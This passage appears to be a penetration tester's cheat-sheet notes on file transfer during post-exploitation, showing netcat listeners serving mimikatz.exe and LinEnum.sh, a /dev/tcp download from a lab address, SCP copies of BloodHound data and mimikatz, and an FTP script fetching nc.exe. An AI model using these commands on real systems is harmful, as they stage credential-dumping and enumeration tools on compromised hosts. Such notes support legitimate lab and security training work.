 ````bash
nc -nlvp 8000 <mimikatz.exe
````

Netcat can also serve content for transfer by the /dev/tcp device file.

### Start Netcat Listener
````bash
nc -lvnp 80 <LinEnum.sh
````
### Download The File
````bash
cat < /dev/tcp/10.10.10.32/80 > LinEnum.sh
````
## SCP
[[SCP]]
The OpenSSH client is available by default on Linux and has been included in Windows 10 and Windows Server 2019 since Autumn 2018. On Windows, the OpenSSH server can be enabled using this procedure. On older Windows systems, the PuTTY Secure Copy client (pscp.exe) can be used.

### SCP Upload
````bash
scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip
````
### SCP Download
````bash
scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe
````
## FTP
Windows 10 includes a native FTP client, which can also read commands from a script to work in a non-interactive shell.

### Ftp-script.txt
  
**Create a file with name: Ftp-script.txt**
````powershell 
open 10.10.10.32
anonymous
anonymous
lcd C:\Temp
get nc.exe
quit
````
#### FTP Transfer
````powershell
ftp -s:ftp-script.txt
````
## TFTP
The TFTP client is not available by default in Windows, but it can be enabled using DISM. \
